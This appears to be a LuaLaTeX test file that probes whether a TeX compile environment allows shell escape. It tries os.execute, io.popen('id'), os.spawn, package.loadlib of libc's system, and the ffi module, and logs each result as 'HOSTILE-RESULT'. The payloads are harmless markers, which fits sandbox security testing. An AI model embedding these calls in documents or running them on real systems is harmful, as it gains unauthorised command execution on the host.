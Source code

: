 \documentclass{article}
\begin{document}
\begin{luacode*}
local function try(name, f)
  local ok, a, b = pcall(f)
  texio.write_nl("HOSTILE-RESULT: " .. name .. " ok=" .. tostring(ok) .. " r=" .. tostring(a) .. " " .. tostring(b))
end
try("os.execute", function() return os.execute("touch lua-exec.txt; touch /dev/shm/td-lua-exec") end)
try("io.popen", function() local p = io.popen("id") return p and p:read("a") end)
try("os.spawn", function() return os.spawn and os.spawn({"touch", "lua-spawn.txt"}) end)
try("package.loadlib", function() return package.loadlib("/lib/x86_64-linux-gnu/libc.so.6", "system") end)
try("ffi", function() return require("ffi") end)
\end{luacode*}
Lua commands.
\end{document}
